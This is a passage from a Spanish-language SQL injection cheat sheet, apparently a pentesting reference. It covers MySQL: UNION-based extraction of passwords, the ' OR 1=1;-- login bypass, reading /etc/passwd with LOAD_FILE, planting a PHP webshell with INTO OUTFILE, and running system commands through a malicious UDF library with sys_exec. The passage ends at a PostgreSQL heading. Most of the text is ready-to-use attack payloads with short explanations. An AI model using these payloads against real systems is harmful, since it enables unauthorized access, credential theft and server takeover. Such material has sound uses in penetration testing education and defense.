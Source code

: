 ```bash
# Extraer valores una vez encontrada la tabla y la columna
<parametro inyectable>' UNION SELECT 1,2,3 from <tabla> where <columna> like 'FUZZ%
```
---

```bash
# Ejemplo con FUZZ en columna password en tabla users columna usernames
<parametro inyectable>' UNION SELECT 1,2,3 from users where username='admin' and password like 'FUZZ%
```

#### d) Bypass Authentication

```bash
# basica TRUE;-- codigo SQL comentado
' OR 1=1;--
```

### **3. Explotación Avanzada en MySQL**

#### **a) Leer Archivos del Servidor con `LOAD_FILE()`**

Si el usuario de la base de datos tiene permisos:
```
' UNION SELECT 1,2,3,LOAD_FILE('/etc/passwd'); --  
```
Esto funciona en sistemas Linux y permite leer archivos accesibles por el usuario de MySQL.

#### **b) Escribir Archivos con `INTO OUTFILE`**

Si tienes permisos, puedes escribir un webshell en el servidor:

```
' INTO OUTFILE '/var/www/html/shell.php' LINES TERMINATED BY 0x3C3F706870206563686F20224F574E4544223B3F3E; --  
```
Esto escribe `<?php echo "OWNED"; ?>` en un archivo PHP accesible desde el navegador.
### **4. Escalada con `sys_exec()` y UDFs (User-Defined Functions)**

Si tienes permisos para crear funciones personalizadas (`root` en MySQL), puedes inyectar una función para ejecutar comandos en el sistema:

1.  **Sube una librería UDF maliciosa** (`lib_mysqludf_sys.so` en Linux o `.dll` en Windows).
2.  **Crea una función en MySQL:**
```
CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'lib_mysqludf_sys.so';
```
3. Ejecuta comandos:
```
SELECT sys_exec('whoami');
```
Este método es avanzado y depende de los permisos de usuario.


## PostgreSQL

